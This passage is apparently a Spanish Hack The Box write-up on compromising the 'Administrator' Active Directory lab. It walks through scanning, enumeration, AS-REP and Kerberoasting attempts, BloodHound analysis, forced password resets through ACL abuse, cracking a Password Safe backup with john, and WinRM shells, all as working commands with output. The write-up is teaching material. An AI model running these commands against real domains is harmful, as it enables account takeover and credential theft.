




---
layout: single
title: Hack The Box WriteUp - Administrator
excerpt: Si
date: 2025-4-19
classes: wide
categories: 
   - writeup
   - hackthebox
tags: 
   - active directory
   - CTF 
--- 

# **Hack The Box - Administrator**


## **Reconocimiento**

Para este laboratorio se nos proporcionan credenciales `Olivia:ichliebedich`
Empezamos haciendo un ping a la máquina para ver a qué OS nos estamos enfrentando: 

```bash 
─$ ping -c 1 10.10.11.47
PING 10.10.11.47 (10.10.11.47) 56(84) bytes of data.
64 bytes from 10.10.11.47: icmp_seq=1 ttl=63 time=114 ms

--- 10.10.11.47 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 113.734/113.734/113.734/0.000 ms
``` 

Una máquina linux, pasemos al escaneo de puertos. 

```bash 
└─$ ports=$(nmap -p- --open -sS -T5 -n -Pn 10.10.11.42 | awk '/^[0-9]+\/tcp/ {split($1,a,"/"); print a[1]}' | paste -sd,)

```

Y lanzamos el escaneo con nmap: 
```bash 
└─$ nmap -p$ports 10.10.11.42 -sCV administrator_scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 22:42 EDT
Nmap scan report for 10.10.11.42
Host is up (0.12s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-04-22 09:43:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
50887/tcp open  msrpc         Microsoft Windows RPC
51419/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
51424/tcp open  msrpc         Microsoft Windows RPC
51427/tcp open  msrpc         Microsoft Windows RPC
51447/tcp open  msrpc         Microsoft Windows RPC
51479/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-04-22T09:44:31
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 7h00m39s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.91 seconds
```
agregamos el dominio sl `/etc/hosts` para que nuestra máquina sepa como resolver el dominio
``` bash
└─$ echo "10.10.11.42 administrator.htb dc dc.administrato.htb"  | sudo tee -a /etc/hosts
[sudo] password for kali:
10.10.11.42 administrator.htb
```

Está abierto el puerto ftp pero no podemos conoctarnos ni con el usuario anonymous ni con las credenciales que se nos proporcionaron

```bash 
└─$ ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:kali): Olivia
331 Password required
Password: 
530 User cannot log in, home directory inaccessible.
ftp: Login failed
ftp> 
``` 

Enumeramos smb de la ip: 
```bash 
└─$ netexec smb 10.10.11.42
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
```

Con lo siguiente probamos si nuestras credenciales so válidas, que lo son pero no podemos hacer nada más. 
```bash 
└─$ netexec smb 10.10.11.42 -u Olivia -p ichliebedich
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich
``` 

Probamos con `winrm` para ver si perteneceos al grupo de Remote Management Users
```bash 
└─$ netexec winrm 10.10.11.42 -u Olivia -p ichliebedich
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\Olivia:ichliebedich (Pwn3d!)
```

Y parece que pertenecemos a este grupo, vamos a intentar conectarnos con la herramienta `evilwinrm`
```bash 
└─$ evil-winrm -i 10.10.11.42 -u olivia -p 'ichliebedich'         
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents> whoami
administrator\olivia
*Evil-WinRM* PS C:\Users\olivia\Documents> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.10.11.42
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : 10.10.10.2
*Evil-WinRM* PS C:\Users\olivia\Documents> 
``` 

Pero aquí no está la flag del usuarios, parece que tenemos que covertirnos en otro usuario: 
```bash 
*Evil-WinRM* PS C:\Users\olivia\Documents> dir C:\Users


    Directory: C:\Users


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/22/2024  11:46 AM                Administrator
d-----        10/30/2024   2:25 PM                emily
d-----         4/21/2025   4:35 PM                michael
d-----         4/21/2025  11:57 AM                olivia
d-r---         10/4/2024  10:08 AM                Public
```

## **Acceso al sistema**

Bien, vamos a usar ahora la herramietna rpclient para conectarnos al servidor smb, primero intentamos usar un Null Session a ver si podemos enumerar cosas del servidor pero parece que no:
```bash 
└─$ rpcclient -U "" 10.10.11.42 -N 
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
``` 

Usamos las credenciales: 
```bash 
└─$ rpcclient -U "olivia%ichliebedich" 10.10.11.42
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[olivia] rid:[0x454]
user:[michael] rid:[0x455]
user:[benjamin] rid:[0x456]
user:[emily] rid:[0x458]
user:[ethan] rid:[0x459]
user:[alexander] rid:[0xe11]
user:[emma] rid:[0xe12]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
``` 

Enumeramos administradores:
```bash 
rpcclient $> querygroupmem 0x200
        rid:[0x1f4] attr:[0x7]
rpcclient $> queryuser 0x1f4
        User Name   :   Administrator
        Full Name   :
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :   Built-in account for administering the computer/domain
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Mon, 21 Apr 2025 13:02:46 EDT
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Tue, 22 Oct 2024 14:59:36 EDT
        Password can change Time :      Wed, 23 Oct 2024 14:59:36 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x1f4
        group_rid:      0x201
        acb_info :      0x00000210
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000004d
        padding1[0..7]...
        logon_hrs[0..21]...
rpcclient $> 
```

Nada interesante así que nos copiamos los usuario, le damos formato y ya obtenemos la lista para poder enurar a cada uno:

```bash 
└─$ rpcclient -U "olivia%ichliebedich" 10.10.11.42 -c 'enumdomusers' > users

└─$ grep -oP '\[.*?\]' users | grep -v '0x' | tr -d '[]' | sponge users

└─$ cat users

 Administrator 
 Guest 
 krbtgt 
 olivia 
 michael 
 benjamin 
 emily 
 ethan 
 alexander 
 emma 
      
``` 

Podemos intentar un AS-REP Roast attack con estos usuarios, recordando que esto funciona si el usuario no tiene configurada la opción de requerir preautenticación para solicitar un TGT ticket del KDC
```bash 
└─$ /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass -usersfile users administrator.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User olivia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User michael doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User benjamin doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User emily doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ethan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
``` 

Pero no tenemos nada tampoco... 

Podemos intentar realizar un Kerberoasting attack, en donde nos podríamos hacemos pasar por un usuario de cuenta con un nombre principal de servicio (SPN) y solicita un ticket relacionado con el servicio e intentar descifrar el hash de la contraseña vinculada a esa cuenta de servicio de forma offline, intentamos con el siguiente comando: 
```bash 
└─$ /usr/share/doc/python3-impacket/examples/GetUserSPNs.py administrator.htb/olivia:ichliebedich
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```
Pero tampoco encontramos nada. 


Usemos ahora la herramienta `bloudhount`, usaremos docker para desplegar, [aqui](https://bloodhound.specterops.io/get-started/quickstart/community-edition-quickstart) las instrucciones de la página oficial. 

También podemos iniciarlo de forma normal si se desea: 
```bash 
sudo neo4j console

blooodhount
```

Ahora nos dumpemos la info del dominio con `bloodhound-python`: 
```bash 
└─$ bloodhound-python -u 'olivia' -p 'ichliebedich' -c ALL --zip -ns 10.10.11.42 -d administrator.htb
``` 
> si nos da error por la desicronización de relojes, podemos ajustar nuetra nuestro reloj con el server con el comando `ntpdate 10.10.11.42`


> Tambien podemos dumpear info extra con la herramietna `ldap`, una herramienta que automatiza el dump (extracción) de información del dominio de Active Directory desde un controlador de dominio vía LDAP. Extrae info como usuarios, grupos, relaciones de confianza, políticas de GPO, etc, usamos el siguiente comando para esto:`ldapdomaindump -u 'administrator.htb\olivia' -p ichliebedich 10.10.11.42` 


Una vez que tenemos el `.zip` que nos da bloodhount-python, la sumbimos a blood hound, y explorando la información del dominio vemos que el usuario que tenemos, Olivia, tiene permisos `Generic All` sobre el usuario michael, lo que nos permite cambiar sus configuraciones de usuario, como nos explica bloodhount: 






Así que vamos a cambiarle la contraseña al usuario: 
```bash 
└─$ net rpc password "michael" "newP@ssword2022" -U "administrator.htb"/"olivia"%"ichliebedich" -S 10.10.11.42
``` 

Pero si seguis explorando, vemos que el usuario michael tiene permisos de **force change password** sobre el usuario benjamin: 



Así que hacemos lo mismo con el usuario benjamin, para demostrar que funcionó el cambio anterior, usamos el usuario michael: 

 


Ahora ya podemos enumerar los recursos en smb y fpt: 

```bash 
└─$ smbmap -H 10.10.11.42 -u benjamin -p 'newP@ssword2022' -r

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.10.11.42:445 Name: administrator.htb         Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        ./IPC$
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    InitShutdown
        fr--r--r--                5 Sun Dec 31 19:03:58 1600    lsass
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    ntsvcs
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    scerpc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-2a0-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-39c-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    epmapper
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-220-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    LSM_API_service
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-3d8-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    eventlog
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-4b4-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    atsvc
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    wkssvc
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-610-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-2a0-1
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-784-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    RpcProxy\51419
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    c33aae1ebb2318da
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    RpcProxy\593
        fr--r--r--                4 Sun Dec 31 19:03:58 1600    srvsvc
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    netdfs
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    tapsrv
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    vgauth-service
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    ROUTER
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-298-0
        fr--r--r--                3 Sun Dec 31 19:03:58 1600    W32TIME_ALT
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-a78-0
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    PIPE_EVENTROOT\CIMV2SCM EVENT PROVIDER
        fr--r--r--                1 Sun Dec 31 19:03:58 1600    Winsock2\CatalogChangeListener-a68-0
        NETLOGON                                                READ ONLY       Logon server share 
        ./NETLOGON
        dr--r--r--                0 Fri Oct  4 15:49:22 2024    .
        dr--r--r--                0 Fri Oct  4 15:54:15 2024    ..
        SYSVOL                                                  READ ONLY       Logon server share 
        ./SYSVOL
        dr--r--r--                0 Fri Oct  4 15:49:22 2024    .
        dr--r--r--                0 Fri Oct  4 15:49:22 2024    ..
        dr--r--r--                0 Fri Oct  4 15:49:22 2024    administrator.htb
[*] Closed 1 connections
``` 

Pero aqui nada interesante, 

Y con ftp si que encontramos algo interesante: 

```bash 
└─$ ftp 10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
Name (10.10.11.42:kali): benjamin
331 Password required
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||65404|)
150 Opening ASCII mode data connection.
10-05-24  09:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||65411|)
125 Data connection already open; Transfer starting.
100% |************************************************************************************************************************************************|   952       16.02 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (15.85 KiB/s)
ftp> 
``` 

Instalamos `passwordsafe` que es de esta herramienta de gestion de contraseñas a la que pertenece el fichero que acabamos de descargar de fpt
```bash 
sudo apt install passwordsafe

pwsafe
``` 

Esto pide contraseña, pero podemos intentar crackearla con jhon: 
```bash 
└─$ locate john | grep -v "share" | grep "safe"
/usr/bin/pwsafe2john
```


Y crackeamos:
```bash 
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ pwsafe2john Backup.psafe3 
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ pwsafe2john Backup.psafe3 > hash
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ john hash -w:/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)     
1g 0:00:00:01 DONE (2025-04-22 03:23) 0.6896g/s 4237p/s 4237c/s 4237C/s newzealand..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
``` 

Usamos la cotraseña y vemos varios usuarios. 


Recordando que tanto emyli como alexander son usuarios válidos que enumeramos al inicio, valilando la contraseña vemos que la contraseña para emily nos funciona,y es aquí donde se encuentra la primera flag de usuario: 
```bash 
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ netexec smb 10.10.11.42 -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb"                                            
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb 
                                                                                                                                                                                             
┌──(kali㉿kali)-[~/labs-hack/administrator]
└─$ evil-winrm -i 10.10.11.42 -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> dir ..\Desktop\


    Directory: C:\Users\emily\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         4/21/2025  10:02 AM             34 user.txt


*Evil-WinRM* PS C:\Users\emily\Documents>
```

Explorando a esta usuaria en bloodhount vemos que tiene permisos de genericwrite sobre el usuari **ethan**, así que nos descargamos la [herramienta](https://github.com/ShutdownRepo/targetedKerberoast) que nos proporciona bloodhount para el nn Targeted Kerberoast attack (ataque Kerberoasting dirigido), que es una versión más refinada del ataque clásico Kerberoasting, que se enfoca en obtener hashes de tickets de servicio (TGS) en Active Directory, pero solo de cuentas específicas, como cuentas de alto valor (por ejemplo, cuentas con privilegios elevados como Domain Admins, SQLService, etc.).

El ataque Kerberoasting aprovecha el hecho de que en Active Directory:
 - Cualquier usuario autenticado puede solicitar un Ticket Granting Service (TGS) para cualquier cuenta que tenga un Service Principal Name (SPN).
 - El ticket TGS está cifrado con la contraseña del servicio asociado (el usuario que corre ese servicio).
 - Estos tickets pueden ser crackeados offline con herramientas como Hashcat o John the Ripper, revelando la contraseña del usuario de servicio.

**Noto que mi maqina atacante está desfasada casi 7 horas con el servidor**
```bash 
ntpdate -q 10.10.11.42
2025-04-22 11:49:34.229874 (-0400) +25201.105948 +/- 0.055748 10.10.11.42 s1 no‑leap
```


